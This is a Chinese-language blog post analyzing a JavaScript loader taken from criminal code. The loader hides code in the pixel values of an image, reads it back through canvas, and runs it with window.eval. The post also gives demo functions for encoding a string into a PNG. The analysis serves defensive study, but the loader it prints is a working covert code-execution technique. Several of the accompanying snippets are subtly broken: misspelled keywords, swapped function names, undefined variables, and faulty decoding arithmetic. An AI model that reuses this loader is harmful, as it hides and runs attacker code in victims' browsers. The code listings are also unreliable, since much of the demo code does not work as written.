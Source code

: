 ```yaml
---
title: "利用 canvas 加载代码"
author: Neal
description: ""
tags: [canvas,前端开发,安全]
categories: [web security]
date: "2018-08-12"
---
```


前段时间获取到黑产的一些代码，不得不感叹黑产的代码是在写的是好得很，思路巧妙，环环相扣。不得不说，技术不好，黑产都做不了了。虽然分析了好多天，但是也只是一知半解。这里抽出一小部分来讲一下。二话不说，先上代码：

最初的代码是经过混淆的，代码经过整理如下：

```javascript
var createImgElement = function(urla, b) {
    var imgElement = document.createElement('img');
    var canvasEle = document.createElement('canvas');
    imgElement['crossOrigin'] = true;
    imgElement['onload'] = function() {
        canvasEle.width = this.width;
        canvasEle.height = this.height;
        var canvasContext = canvasEle.getContext('2d')
        canvasContext.drawImage(this, 0, 0, this.width, this.height);
        for (var canvasContext = canvasContext.getImageData(0, 0, this.width, this.height), 
        cancasDataLength = canvasContext.data.length, arr = [], i = 0;
            i < cancasDataLength;
            i += 4) {
            var code = canvasContext.data[i]
            var code1 = canvasContext.data[i + 1]
            var code2 = canvasContext.data[i + 2]
            canvasContext.data[i + 2].toString(16);
            1 == code1.length && (code1 = 0 + code1);
            1 == code2.length && (code2 = 0 + code2);
            0 != Number(code + code1 + code2) && arr.push(String.fromCharCode(Number(code + code1 + code2)))
        }
        window.eval(arr.join(''));
        console.log(arr.join(''))
        b && b()
    }
    imgElement.src = urla
};
```

这段代码的主要目的是通过使用一个图片的连接，将这个图片加载到 canvas 中，再利用 canvas 去获取恶意代码并执行。通过图片去隐藏信息是一种常见的做法，这段就是通过 canvas 去执行图片中隐含的恶意代码。这段还支持传入回调函数，若回调函数存在，则执行回调函数。

这里涉及到一个 canvas 和图片之间的相互转化。下面提供两个相互转化的函数：

```javascript
var canvasToImg = fucntion(image) {
    var canvas = document.createElement('canvas');
    canvas.width = image.width;
    canvas.height = image.height;
    canvas.getContext('2d').drawImage(image, width, height);
    return canvas;
}

var imgToCanvas = function(canvas) {
    var image = new Image();
    image.src = canvas.toDataUrl('image/png');
    return image;
}
```

所以黑产也是通过将恶意代码放入到图片之中，从而以后可以通过 canvas 去读取恶意代码。下面写一个小的 demo 来复现这样一个简单的过程：

```javascript
var createImgByCode = function(codeStr, width, height) {
    var imgElement = document.createElement('img');
    var canvasEle = document.createElement('canvas');
    canvasEle.width = width;
    canvasEle.height = height;
    var canvasContext = canvasEle.getContext('2d');
    var data = new Array(4 * width * height);
    for (var i = 0; i < codeStr.length; i += 4) {
        var c = codeStr[i];
        var charCode = c.charCodeAt();
        var code = 0;
        var code1 = 16;
        var code2 = charCode - code1;
        data[i] = code;
        data[i + 1] = code1;
        data[i + 2] = code2;
        data[i + 3] = 255;
    }
    data = Uint8ClampedArray.from(data);
    var imgData = new ImageData(data, width, height);
    canvasContext.putImageData(imgData, 0, 0);
    imgElement.src = canvasEle.toDataURL("image/png");
    imgElement.width = width;
    imgElement.height = height;
    imgElement.crossOrigin = ' ';
    document.querySelector("#container").appendChild(imgElement);
}

var readCodeFromImg = function() {
    var img = document.querySelector('#container img');
    var width = 20;
    var height = 20;
    var canvas = document.createElement('canvas');
    canvas.width = width;
    canvas.height = height;
    var context = canvas.getContext('2d');
    context.drawImage(img, 0, 0, width, height);
    for (var context = context.getImageData(0, 0, width, height), 
        cancasDataLength = context.data.length, arr = [], i = 0;
        i < cancasDataLength;
        i += 4) {
        var code = context.data[i];
        var code1 = context.data[i + 1];
        var code2 = context.data[i + 2];
        1 == code1.length && (code1 = 0 + code1);
        1 == code2.length && (code2 = 0 + code2);
        0 != Number(code + code1 + code2) && arr.push(String.fromCharCode(Number(code + code1 + code2)))
    }
    console.log(arr.join(''));
}

createImgByCode("14324dfjkkdf432473724afjdfshjkdfkl53453453425dlkfklsdf", 20, 20);
readCodeFromImg();
```

`createImgByCode` 函数可以将任意字符串转化为一个图片，接着通过 canvas 去加载代码。不过这里面有一个问题，就是通过`createImgByCode` 函数生成的图片是一个 base64 图片，不能够直接被加载，这个图片必须被存储为 png 格式才能够通过另一个函数去加载代码。

以上。

欢迎搜索微信号 mad_coder 或者扫描二维码关注公众号：

![9tMvlT.jpg](https://s1.ax1x.com/2018/02/17/9tMvlT.jpg)

